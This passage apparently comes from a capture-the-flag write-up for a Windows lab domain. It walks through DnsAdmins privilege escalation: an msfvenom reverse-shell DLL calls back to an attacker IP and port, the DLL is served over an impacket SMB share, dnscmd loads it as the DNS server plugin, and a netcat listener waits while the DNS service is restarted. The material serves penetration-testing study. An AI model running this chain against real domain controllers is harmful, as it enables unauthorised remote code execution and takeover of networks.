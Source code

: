 ```
*Evil-WinRM* PS C:\Users\ryan\music> .\accesschk.exe /accepteula -ucqv dns
dns
  Medium Mandatory Level (Default) [No-Write-Up]
<SNIP>
  R  MEGABANK\ryan
        SERVICE_QUERY_STATUS
        SERVICE_INTERROGATE
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL
```

Yes, the user ryan has the ability to SERVICE_START and SERVICE_STOP.

Now, let's move onto the exploitation.

First, let's use `msfvenom` to create a DLL payload.

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.7 LPORT=8888 --platform=windows -f dll > plugin.dll`

Next, let's change the DNS server configuration to point to the DLL.

We will infiltrate the DLL with the help of Impacket's `smbserver`. Use the command below in a local folder that contains `plugin.dll`.

`impacket-smbserver SHARE .`

Next, let's use `dnscmd.exe` to alter the configuration. It is a [command line software for managing DNS servers](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd).

```
*Evil-WinRM* PS C:\> dnscmd.exe RESOLUTE.MEGABANK.LOCAL /config /serverlevelplugindll \\10.10.X.X\share\plugin.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```

Before we attempt to load `plugin.dll`, let's create a listener for the reverse shell.

`nc -nvlp 8888`

Finally, let's force the DNS server to load the DLL by restarting it with `sc.exe` - a tool for managing services.

```
*Evil-WinRM* PS C:\> sc.exe stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
*Evil-WinRM* PS C:\> sc.exe start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
```